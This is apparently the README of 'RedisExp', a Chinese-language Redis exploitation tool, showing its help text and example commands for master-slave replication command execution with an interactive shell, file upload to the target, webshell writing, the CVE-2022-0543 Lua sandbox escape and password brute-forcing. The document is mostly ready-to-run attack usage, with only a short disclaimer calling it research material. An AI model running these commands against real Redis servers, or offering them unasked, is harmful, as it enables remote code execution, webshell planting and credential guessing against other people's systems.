 ## Redis 漏洞利用工具

帮助：`-h`

```
NAME:
   Redis Exp - Redis 利用工具

USAGE:
   Redis Exp [global options] command [command options] [arguments...]

COMMANDS:
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --rhost value, -r value      目标IP
   --rport value, --rp value    目标端口 (default: "6379")
   --pwd value                  Redis密码
   --lhost value, -l value      本地IP
   --lport value, --lp value    本地端口 (default: "21000")
   --dll value, --so value      设置 exp.dll | exp.so (default: "exp.dll")
   --cmd value, -c value        命令执行
   --console                    使用交互式 shell (default: false)
   --exec                       主从复制命令执行 (default: false)
   --upload                     主从复制文件上传 (default: false)
   --rpath value, --path value  保存在目标的目录 (default: ".")
   --rfile value, --rf value    保存在目标的文件名
   --lfile value, --lf value    需要上传的文件名
   --lua                        Lua沙盒绕过命令执行 CVE-2022-0543 (default: false)
   --shell                      备份写 Webshell (default: false)
   --help, -h                   show help (default: false)
```

#### 主从复制漏洞

命令执行：

- 默认 windows 加载的是 `exp.dll`
- 默认是非交互式 shell

````
RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -exec -c whoami
RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -exec -console

RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -c whoami
RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -console
````

![1](images/1.png)

文件上传：

```
RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -upload -rfile 1.txt -lfile 2.txt
```

![2](images/2.png)



#### 备份写 Webshell

```
RedisExp.exe -rhost 192.168.211.128 -shell
```

![3](images/3.png)



#### Lua沙盒绕过命令执行 CVE-2022-0543

```
RedisExp.exe -rhost 192.168.211.130 -lua -console
```

![4](images/4.png)


#### 爆破 Redis 密码

```
RedisExp.exe -r 192.168.211.128 -brute -pwdf ../pass.txt
```

![4](images/5.png)


### 参考

本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile

 

### 声明

本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。
